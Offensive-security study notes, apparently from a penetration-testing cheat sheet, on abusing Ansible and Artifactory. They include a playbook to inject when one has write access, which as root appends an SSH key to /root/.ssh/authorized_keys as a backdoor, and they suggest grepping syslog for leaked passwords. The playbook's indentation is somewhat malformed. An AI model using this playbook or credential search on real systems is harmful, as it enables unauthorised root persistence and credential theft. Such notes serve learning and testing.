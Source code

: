 If we have the write access to the playbook, we can inject extra task, example:
#cmd-exec #ansible 
```yaml
---
- name: Get system info
    hosts: all
    gather_facts: true
    become: yes
    tasks:
        - name: Display info
        debug:
            msg: "The hostname is {{ ansible_hostname }} and the OS is {{ ansible_distribution }}"
        - name: Create a directory if it does not exist
        file:
            path: /root/.ssh
            state: directory
            mode: '0700'
            owner: root
            group: root
        - name: Create authorized keys if it does not exist
        file:
            path: /root/.ssh/authorized_keys
            state: touch
            mode: '0600'
            owner: root
            group: root
        - name: Update keys
        lineinfile:
            path: /root/.ssh/authorized_keys
            line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
            insertbefore: EOF
```

##### Sensitive Data leakage via Ansible

#creds-leak 
The shell ansible module might leak the credentials e.g. in the shell line. It will log the shell command to the syslog by default.
Except if the no_log: true is set in the playbook. We can grep the **/var/log/syslog** for the passwords.


#### Artifactory

Binary software repo - single source of truth for the software packages. Good target for supply chain compromise attacks.
#repo #enum 

To start artifactory as a service:
```bash
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
```

Open Source allows - gradle, maven, iv, spt and generic.
